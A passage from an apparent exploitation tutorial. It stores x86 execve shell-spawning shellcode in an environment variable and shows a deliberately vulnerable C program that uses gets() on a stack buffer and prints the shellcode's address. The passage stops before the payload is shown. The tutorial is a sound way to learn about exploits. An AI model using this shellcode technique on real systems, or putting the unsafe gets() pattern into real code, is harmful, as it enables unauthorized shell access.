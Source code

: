 4. Saving the shellcode in an environment variable. 

		rev_eng_series/post_12$ SHELLCODE=`python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`
		adwi@adwi:~/ALL/rev_eng_series/post_12$ echo $SHELLCODE
		1�Ph//shh/bin��PS��1Ұ

	* Only **Permanent** variables will be inherited. So, convert the above local variable into a Permanent variable. 

			rev_eng_series/post_12$ export SHELLCODE
	
	* We have now saved the variable. 

5. Check if it inherited or not. 

	* Open up **bof** in gdb. List all environment variables using the **x/** command as we did previously and make sure the variable **SHELLCODE** is present. 


	* Let us change **bof.c** so that it prints the address of **SHELLCODE** variable. Look at the following: 

			rev_eng_series/post_12$ cat bof.c
			#include<stdio.h>
			#include<string.h>

			void func() {

				char buffer[200];
				//printf("Address of buffer = %p\n", buffer);
				printf("Address of SHELLCODE = %p\n", getenv("SHELLCODE"));
				gets(buffer);
			}


			int main() {

				printf("Before calling func\n");
				func();
				printf("After calling func\n");
				
				return 0;
			}

	* The **getenv** function is being used to get the address. 

	* Compile and run it. 

			rev_eng_series/post_12$ ./bof
			Before calling func
			Address of SHELLCODE = 0xffffd01a
			iehfoiwhf
			After calling func

6. Craft the payload: 

	* The idea is the same. Instead of jumping to the buffer, we jump the environment variable where we have stored our shellcode. 

	* So, this is how the payload will look like now: 
